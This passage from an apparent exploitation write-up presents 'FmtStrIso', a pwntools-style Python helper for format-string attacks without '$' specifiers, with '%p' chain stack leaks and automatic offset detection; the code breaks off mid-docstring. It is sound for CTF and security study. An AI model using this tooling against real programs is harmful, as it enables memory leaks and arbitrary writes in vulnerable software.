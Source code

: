 - The same change was made in `leak_stack()`.
    
- `execute_writes()` uses `no_dollar=True` by default (was `False` in pwntools).
    
- Added `_leaker` dereference support. It’s not strictly necessary.


```python
#...
#...
#...
class FmtStrIso(object):
    """
    pwntools-like API, but works WITHOUT $ in the format string.
    - find_offset(): one-shot %p scan to find offset+padlen
    - leak_stack():  %p chain for stack leaks
    - _leaker():     advance with %c, read with %s (addr appended later)
    - execute_writes(): fmtstr_payload(..., no_dollars=True)
    """

    def __init__(self, execute_fmt, offset=None, padlen=0, numbwritten=0, badbytes=frozenset()):
        self.execute_fmt = execute_fmt
        self.offset = offset
        self.padlen = padlen
        self.numbwritten = numbwritten
        self.badbytes = badbytes

        if self.offset is None:
            self.offset, self.padlen = self.find_offset()
            if self.offset is None:
                log.error("Could not auto-detect offset/padlen (no-$)")
            else:
                log.info("Found format string offset (no-$): %d (padlen=%d)", self.offset, self.padlen)

        self.writes = {}
        self.leaker = MemLeak(self._leaker)

    # ---------- STACK LEAK WITHOUT $ ----------
    def leak_stack(self, offset, prefix=b""):
        """
        Leak stack argument without using $:
          START (%p|) * (offset-1)  +  %p END
        The final %p prints the target argument (as '0x...' hex string).
        """
        assert offset >= 1
        fmt = b"START" + (b"%p|" * (offset - 1)) + b"%pEND"
        leak = self.execute_fmt(prefix + fmt)
        try:
            between = re.findall(br"START(.*?)END", leak, re.MULTILINE | re.DOTALL)[0]
            last = between.split(b"|")[-1].strip()
            return int(last, 16) if last.startswith(b"0x") else 0
        except Exception:
            return 0

    # ---------- AUTO-DETECT OFFSET+PADLEN WITHOUT $ ----------
    def find_offset(self, max_args=200):
        """
        Detect offset+padlen with a single payload (no-$).
        Logic:
          - prefix with cyclic(20) marker
          - use "START %p|%p|...%p END" for max_args arguments
          - parse tokens (0x...) int->pack->first 4 bytes
          - use cyclic_find to locate marker position (padlen)
          - token index = offset
        Fallback: brute force with leak_stack (still no-$).
```